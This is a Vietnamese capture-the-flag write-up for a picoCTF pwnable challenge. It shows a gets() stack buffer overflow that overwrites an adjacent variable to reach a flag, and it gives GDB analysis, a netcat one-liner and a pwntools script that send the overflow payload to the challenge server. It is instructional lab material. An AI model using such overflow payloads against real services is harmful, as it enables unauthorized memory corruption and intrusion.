

# Local Target

- **Phân loại:** Pwnable
- **Độ khó:** Easy
- Tool: GDB-peda
- Kiến thức: stack, thanh ghi

## 1. Phân tích bài

1. Source

```cpp
#include <stdio.h>
#include <stdlib.h>

int main(){
  FILE *fptr;
  char c;

  char input[16];
  int num = 64;
  
  printf("Enter a string: ");
  fflush(stdout);
  gets(input);
  printf("\n");
  
  printf("num is %d\n", num);
  fflush(stdout);
  
  if( num == 65 ){
    printf("You win!\n");
    fflush(stdout);
    // Open file
    fptr = fopen("flag.txt", "r");
    if (fptr == NULL)
    {
        printf("Cannot open file.\n");
        fflush(stdout);
        exit(0);
    }

    // Read contents from file
    c = fgetc(fptr);
    while (c != EOF)
    {
        printf ("%c", c);
        c = fgetc(fptr);
    }
    fflush(stdout);

    printf("\n");
    fflush(stdout);
    fclose(fptr);
    exit(0);
  }
  
  printf("Bye!\n");
  fflush(stdout);
}
```

b) Nhận xét

- Mục đích của ta là ghi đè biến num thành giá trị 65 thông qua mảng input. Nhưng mảng input lại được khai báo trước nên nó không thể ghi đè vào biến num

## 2. Ý tưởng khai thác

- Mặc dù trên lý thuyết mảng input được khai báo trước thì nó phải có địa chỉ cao hơn biến num trên stack, nhưng thực tế thì compiler có thể sắp xếp lại các biến để đảm bảo alignment cho hiệu năng tốt hơn. Để kiểm tra giả thiết này ta sẽ thử debug bằng gdb
- Đầu tiên, xem mã assembly của chương trình, dễ thấy địa chỉ của biến num là rbp-0x8:



- Tiếp theo, ta cần đặt breakpoint sau câu lệnh gets input (breakpoint có tác dụng tạm dừng việc thực thi chương trình tại một điểm cụ thể giúp kiểm tra trạng thái của chương trình tại thời điểm đó, bao gồm giá trị của các biến, nội dung của bộ nhớ, stack frame,…)
Vì câu lệnh gets có địa chỉ là 0x401275 nên ta đặt breakpoint tại câu lệnh tiếp theo (0x40127a)


- Sau đó ta dùng câu lệnh run và nhập chuỗi string:


- Dùng câu lệnh “x/s $rsp-0x20” để in ra chuỗi chứa trong địa chỉ rsp-0x20. Ta thấy đó chính là chuỗi input mà ta đã nhập vào, vậy rsp-0x20 chính là địa chỉ của input


- Sau khi debug thì ta thấy phỏng đoán ban đầu hoàn toàn là đúng: biến num được xếp trước mảng input trong stack nên ta có thể ghi tràn mảng input để đè vào biến num. Padding ở đây là 0x20-0x8=0x18 (=24 trong hệ thập phân)

## 3. Tiến hành khai thác

- Cách 1: truyền bằng pipe:
+ Payload:
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7\x41 (41 trong hex = 65 trong decimal)
+ Câu lệnh truyền payload bằng pipe:

```cpp
(echo -ne "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7\x41"; cat) | nc saturn.picoctf.net 65514
```


- Cách 2: dùng file thực thi
+ Ta tạo file python thực thi:

```cpp
from pwn import *

p=remote('saturn.picoctf.net', 65514)
payload = b'a'*24 + p64(65)

p.sendline(payload)
p.interactive()
```


## 4. Kết luận

- Không phải lúc nào các biến nội bộ cũng được sắp xếp trong stack theo đúng thứ tự